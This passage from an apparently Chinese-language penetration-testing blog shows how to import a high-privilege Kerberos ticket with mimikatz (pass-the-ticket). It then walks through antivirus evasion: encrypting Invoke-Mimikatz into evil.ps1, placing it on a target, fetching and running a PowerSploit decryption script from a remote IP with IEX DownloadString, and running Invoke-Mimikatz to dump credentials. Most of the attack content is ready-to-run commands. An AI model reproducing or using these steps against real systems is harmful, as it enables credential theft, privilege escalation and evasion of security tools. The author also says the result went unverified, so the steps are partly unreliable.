在mimikatz中导入票据:
```
##清除内存中的票据信息
kerberos::purge
## 将高权限票据导入
kerberos::ptc 票据路径
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/29.png)
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/30.png)

验证是否成功:
（这里环境搞崩了，应该结果是对的，另外我在win2012r2 6.3没成功）
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/31.png)

## 免杀处理

```
poweshell.exe Import-Module .\Out-EncryptedScript.ps1
poweshell.exe Out-EncryptedScript -ScriptPath .\Invoke-Mimikatz.ps1 -Password 密码 -Salt 随机数
#默认生成的文件是evil.ps1

-Password   设置加密的密钥
-Salt       随机数，防止被暴力破解
```
将加密生成的evil.sp1脚本放在目标机上，执行如下命令：

```
#远程加载解密脚本
poweshell.exe 
IEX(New-Object Net.WebClient).DownloadString("http://1.1.1.32/PowerSploit/ScriptModification/Out-EncryptedScript.ps1")

[String] $cmd = Get-Content .\evil.ps1
Invoke-Expression $cmd
$decrypted = de password salt
Invoke-Expression $decrypted
Invoke-Mimikatz
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-27/32.png)

## 学习参考：
大佬nb，就完事了
```
https://www.cnblogs.com/-mo-/p/11890232.html
```
